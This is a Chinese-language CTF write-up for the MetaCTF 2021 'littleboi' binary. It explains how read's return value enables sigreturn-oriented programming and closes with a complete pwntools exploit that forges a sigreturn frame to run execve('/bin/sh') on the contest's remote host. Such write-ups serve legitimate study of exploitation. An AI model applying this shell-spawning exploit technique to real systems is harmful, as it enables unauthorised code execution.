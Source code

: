 metactf2021,littleboi

检查保护

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

发现没开PIE。

程序代码： 

```assembly
public _start
_start proc near
; __unwind {
push    rsp
pop     rsi
push    0
push    0
pop     rdi
pop     rax
mov     edx, 800h
syscall                 ; LINUX -
retn
_start endp
```

发现仍然是从汇编程序编译来的，而且非常短，根本没有什么ropgadget可以用。同时，可以查找到程序里含有`'/bin/sh'`字符串。

程序流程是执行了`read(0,rsp,0x800)`，就是向栈上写入键盘读入的很长的字符串。同时也有一个现成的syscall后面跟ret的gadget。很容易忽略的一点是，read函数是有返回值的，返回的是真正读入了多少个字符，保存在rax中。因此，这个read之后的rax事实上是可以通过输入字符来控制的，只要我们输入15个字符就能进行SROP了。

观察栈布局，我们输入的第一个64位数就是返回地址。但是我们要在栈上伪造一个sig-frame（很长，远大于15）来调各种寄存器，因此我们需要读入两次。所以，第一次的read，我们要让返回地址回到程序开头，同时在栈上伪造好待会儿要用的sigframe。回到程序开头后，我们第二次输入15个字符，然后令返回地址为syscall，只要第一次伪造好的sigframe正好在栈顶，就能成功srop。这里我们可以计算一下第一次的填充，是16字节的填充，后面跟sigframe。

通过这个exp，我们可以学习一下pwntools中srop的工具使用。

```python
from pwn import *
e=ELF('./little')
p=remote('host1.metaproblems.com',5460)
binsh_addr=0x402000
syscall_addr=0x40100d
context.arch='amd64'
frame=SigreturnFrame()#构造frame
frame.rax=59
frame.rdi=binsh_addr
frame.rsi=0
frame.rdx=0
frame.rip=syscall_addr#和rop一样设置寄存器
#print(str(frame).encode())
p.send(p64(e.symbols['_start'])+p64(0)+bytes(frame))#frame前面跟着16字节的填充
sleep(1)
p.send(p64(syscall_addr)+bytes(frame)[0:7])#15字节
p.interactive()
```

## 总结

ROP是一种利用手段，而并非程序本身的漏洞。对于一般的题目，我们总需要各种方法去劫持控制流，劫持完了以后转移到我们的利用手段上去，这时再考虑ROP。
